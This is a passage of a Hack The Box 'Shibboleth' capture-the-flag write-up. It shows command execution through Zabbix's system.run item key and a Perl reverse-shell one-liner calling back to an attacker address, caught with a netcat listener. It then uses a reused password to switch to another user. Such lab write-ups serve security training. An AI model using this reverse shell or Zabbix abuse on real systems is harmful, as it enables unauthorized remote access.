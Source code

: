 ![[Pasted image 20211124085038.png]]

<br>

In the top right corner, press `Create Item`. Name it to whatever and in the Key-field execute code with the syntax: `system.run[command]`. Save your new item, press on it to and  in the bottom row press `Execute now`. A simple ping POC would look like this:

![[Pasted image 20211124085238.png]]

![[Pasted image 20211124085403.png]]

<br>

Trying to execute one liners directly through the GUI gives me a shell that closes down only after a few seconds. So instead I host a local HTTP Server that exposes a pearl one-liner, and trigger it using curl from the GUI. 

```bash
$ cat rev.sh      
perl -e 'use Socket;$i="10.10.14.6";$p=4488;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![[Pasted image 20211124092000.png]]

```bash
┌──(void㉿void)-[/htb/shibboleth]
└─$ nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.124] 38550
/bin/sh: 0: can't access tty; job control turned off
$ id && hostname
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
shibboleth
```

-------------

<br>

### Step 4
The admin loves password re-use; change to user `ipmi-svc` password `ilovepumkinpie1`.

```bash
zabbix@shibboleth:/$ su ipmi-svc
Password: ilovepumkinpie1
ipmi-svc@shibboleth:/$ cd 
ipmi-svc@shibboleth:~$ cat user.txt 
1c61257210be4a423aeae88f727c2412
```

-------------

<br>
